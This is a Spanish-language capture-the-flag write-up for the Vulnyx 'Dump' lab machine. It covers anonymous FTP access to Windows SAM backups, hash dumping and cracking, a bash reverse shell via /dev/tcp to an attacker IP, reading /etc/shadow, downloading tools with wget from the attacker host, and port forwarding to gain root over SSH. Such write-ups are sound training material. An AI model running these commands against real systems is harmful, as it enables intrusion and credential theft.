 ```yaml
---
title: Vulnyx - Dump
author: estx
date: 2024-04-27 16:41:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'Information Leakage', 'Local Port Forwarding']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Dumper/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hook Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnyx.

Técnicas usadas: **Information Leakage, Local Port Forwarding**


### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.66	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```


a. Enumeramos los puertos que están abiertos.

```bash
❯ nmap -p- -sS --min-rate 5000 -Pn -n 192.168.100.66 -oG ports

PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
4200/tcp open  vrml-multi-use
MAC Address: 08:00:27:0F:5F:9B (Oracle VirtualBox virtual NIC)
```

b. Vemos las versiones de los servicios que se están ejecutando

```bash
❯ nmap -p21,80,4200 -sCV 192.168.100.66 -oN versions

PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      pyftpdlib 1.5.4
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx   2 root     root         4096 Feb 09 10:46 .backup [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.100.66:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
80/tcp   open  http     Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
4200/tcp open  ssl/http ShellInABox
| ssl-cert: Subject: commonName=dump
| Not valid before: 2024-02-09T11:53:57
|_Not valid after:  2044-02-04T11:53:57
|_http-title: Shell In A Box
|_ssl-date: TLS randomness does not represent time
MAC Address: 08:00:27:0F:5F:9B (Oracle VirtualBox virtual NIC)
```

* En el servicio FTP existe un directorio .backup además de que la autenticación anónima está permitida

  ```bash
  ❯ ftp 192.168.100.66
  Name (192.168.100.66:estx): anonymous
  Password: [ENTER]
  230 Login successful.
  ftp> ls
  drwxrwxrwx   2 root     root         4096 Feb 09 10:46 .backup
  ftp> cd .backup
  ftp> ls
  -rwxrwxrwx   1 root     root        24576 Feb 09 10:35 sam.bak
  -rwxrwxrwx   1 root     root      3264512 Feb 09 10:36 system.bak
  ftp>
  ```

* Nos descargamos los archivos que encontramos en este servicio

  ```bash
  ftp> get sam.bak
  ftp> get system.bak
  ```

> El archivo **`sam`** es una base de datos con los hashes de las cuentas locales en Windows y el archivo **`system`** contiene la 'bootkey' que es la clave con la que se encripta la **sam**.
{: .prompt-info }

c. Podemos desencriptar estos hashes con **impacket-secretsdump** con el fin de extraer los hashes (NTLM) y tratar de crackearlos.

```bash
❯ impacket-secretsdump -sam sam.bak -system system.bak LOCAL

[*] Target system bootKey: 0x042145cf7279c87791fa907cd6d9bccd
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:45ab968b011c0b6cfd1e9e1b30ff40cc:916da1881680fcb38f2ce951f666d6be:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:d0d506281c0dbfe0a16f57e412411d37:::
dumper:1004:ebd1b59f4f5a6843aad3b435b51404ee:7324322d85d3714068d67eccee442365:::
admin:1005:7cc48b08335cd858aad3b435b51404ee:556a8f7773e850d4cf4d789d39ddaca0:::
```

* Guardamos todos lo hashes y los crackeamos con hashcat o john

  ```bash
  hashcat -a 0 -m 1000 hashes /usr/share/wordlists/rockyou.txt

  dumper:7324322d85d3714068d67eccee442365:1dumper
  admin:556a8f7773e850d4cf4d789d39ddaca0:blabla
  ```

d. El servicio del puerto **4200** es ShellInABox, este servicio permite ejecutar una bash en el navegador, para conectarnos a este servicio tenemos que indicar el protocolo **https**

![shell.png](/assets/images/Vulnyx/Easy/Dump/01-shell.png)


### Escalada de Privilegios 💹

a. Una vez que nos autenticamos con las credenciales `dumper:1dumper` nos enviamos una reverse shell para trabajar cómodamente

```bash
# Máquina Atancante
❯ nc -lvnp 4444
```

```bash
# SHELL IN A BOX
per@dump:~$ bash -c 'bash -i >& /dev/tcp/[IP Máquina Atacante]/4444 0>&1'
```

* Ahora realizamos un tratamiento de la TTY en la reverse shell

  ```bash
  dumper@dump:~$ script /dev/null -c bash
  script /dev/null -c bash
  dumper@dump:~$ ^Z
  [1]  + 7255 suspended  nc -lvnp 4444
  ❯ stty raw -echo;fg
  [1]  + 7255 continued  nc -lvnp 4444
                                      reset xterm

  dumper@dump:~$ export TERM=xterm-256color
  dumper@dump:~$ source /etc/skel/.bashrc 
  ```

b. Con [linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20240421-825f642d) buscamos formas de escalar privilegios, lo que veremos es que podemos leer el contenido del `/etc/shadow`, aquí veremos el hash del usuario root el cual crackeamos con hashcat

```bash
# Dump
dumper@dump:~$ cat /etc/shadow
root:$6$jzcdBmCLz0zF2.b/$6sok07AjDc3TN3oeI/NqrdZ6NSQly3ADW6lvs3z5q.5GDqsCypL8WtL7ARhzDcdYgukakXWeNbiIP7GyigCse/:19762:0:99999:7:::
...
------------------------------------------------------------------------
# Máquina Host
❯ hashcat -a 0 hash /usr/share/wordlists/rockyou.txt
$6$jzcdBmCLz0zF2.b/$6sok07AjDc3TN3oeI/NqrdZ6NSQly3ADW6lvs3z5q.5GDqsCypL8WtL7ARhzDcdYgukakXWeNbiIP7GyigCse/:shadow123
```

c. No podemos usar 'su' para transformarnos en **root**. Investigando más veremos que el servicio SSH se encuentra habilitado, pero, no se lo ve externamente. Usaremos **socat** o **chisel** para hacer un `Local Port Forwarding` con el fin de hacer accesible el puerto 22

* Usando [**socat**](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat)

  a. Descargamos socat en la Máquina Dump

  ```bash
  # Máquina Atacante
  ❯ ls
  socat  
  ❯ python -m http.server 80
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)

  # Máquina Dump
  dumper@dump:/tmp$ wget -o- http://[IP Máquina Atancante]/socat
  ```

  b. Le damos permisos de ejecución a socat y hacemos el **Port Forwarding**

  ```bash
  dumper@dump:/tmp$ chmod +x ./socat
  dumper@dump:/tmp$ ./socat TCP-LISTEN:4444,reuseaddr,fork TCP:127.0.0.1:22
  ```

  > Con esto indicarmos que toda conexión entrante por el puerto 4444 se redirigirá al puerto 22 (SSH)
  {: .prompt-info }

  c. Ahora, nos podemos autenticar en el servicio SSH con las credenciales `root:shadow123`

  ```bash
  ❯ ssh root@192.168.100.66 -p 4444
  Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
  root@192.168.100.66's password: 
  root@dump:~#
  ```

* Usando [**chisel**](https://github.com/jpillora/chisel/releases)

  a. Descargamos chisel en la Máquina Dump

  ```bash
  # Máquina Atacante
  ❯ ls
  chisel  
  ❯ python -m http.server 80
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/)

  # Máquina Dumper
  dumper@dump:/tmp$ wget -o- http://[IP Máquina Atancante]/chisel
  ```


  b. Primero, ejecutamos chisel en modo servidor en nuestra máquina atacante

  ```bash
  ❯ ./chisel server --reverse -p 4443
  2024/04/27 23:24:56 server: Reverse tunnelling enabled
  2024/04/27 23:24:56 server: Fingerprint 9xTeAG/cj+NT6JQBH0NOgx+P8LXbW6+vLOQoJ2bbpss=
  2024/04/27 23:24:56 server: Listening on http://0.0.0.0:4443
  ```

  b. Ahora, le damos permisos de ejecución a chisel y hacemos el **Port Forwarding** en Dump

  ```bash
  dumper@dump:/tmp$ ./chisel client [IP Máquina Atacante]:4443 R:[Puerto en nuestra máquina atacante]:127.0.0.1:22
  2024/04/27 23:27:20 client: Connecting to ws://192.168.100.55:4443
  ```

  > **`[IP Máquina Atacante]:4443`** Aquí nos conectamos al servidor levantado en nuestra máquina atacante. **`R:[Puerto en nuestra máquina atacante]:127.0.0.1:22`** con esto indicamos un puerto de nuestra máquina atacante el cual ocupará el servicio SSH de la máquina Dump
  {: .prompt-info }

  c. Ahora, nos podemos autenticar en el servicio SSH con las credenciales `root:shadow123`

  ```bash
  ❯ lsof -i:22
  COMMAND   PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
  chisel  11102 root    8u  IPv6  77037      0t0  TCP *:ssh (LISTEN)

  ❯ ssh root@127.0.0.1
  root@127.0.0.1's password: 
  root@dump:~#
  ```
